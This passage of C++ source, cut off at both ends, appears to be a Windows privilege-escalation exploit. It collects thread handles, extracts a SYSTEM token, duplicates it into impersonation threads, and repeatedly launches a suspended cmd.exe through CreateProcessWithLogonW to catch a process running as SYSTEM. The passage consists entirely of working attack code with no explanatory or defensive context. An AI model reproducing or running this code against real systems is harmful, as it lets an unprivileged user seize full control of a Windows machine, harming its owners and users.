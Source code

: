 ```
      break;
    }
  }
  return 0;
}

int main()
{
  std::map<DWORD, HANDLE> thread_handles;
  printf("Gathering thread handles\n");

  for (int i = 0; i < MAX_PROCESSES; ++i) {
    HANDLE hThread = GetThreadHandle();
    DWORD dwTid = GetThreadId(hThread);
    if (!dwTid)
    {
      printf("Handle not a thread: %d\n", GetLastError());
      exit(1);
    }

    if (thread_handles.find(dwTid) == thread_handles.end())
    {
      thread_handles[dwTid] = hThread;
    }
    else
    {
      CloseHandle(hThread);
    }
  }

  printf("Done, got %zd handles\n", thread_handles.size());
  
  if (thread_handles.size() > 0)
  {
    HANDLE hToken = GetSystemToken(thread_handles.begin()->second);
    printf("System Token: %p\n", hToken);
    
    for (const auto& pair : thread_handles)
    {
      ThreadArg* arg = new ThreadArg;

      arg->hThread = pair.second;
      DuplicateToken(hToken, SecurityImpersonation, &arg->hToken);

      CreateThread(nullptr, 0, SetTokenThread, arg, 0, nullptr);
    }

    while (true)
    {
      PROCESS_INFORMATION procInfo = {};
      STARTUPINFO startInfo = {};
      startInfo.cb = sizeof(startInfo);     

      if (CreateProcessWithLogonW(L"test", L"test", L"test", 
              LOGON_NETCREDENTIALS_ONLY, nullptr, 
              L"cmd.exe", CREATE_SUSPENDED, nullptr, nullptr, 
              &startInfo, &procInfo))
      {
        HANDLE hProcessToken;
        // If we can't get process token good chance it's a system process.
        if (!OpenProcessToken(procInfo.hProcess, MAXIMUM_ALLOWED, 
                              &hProcessToken))
        {
```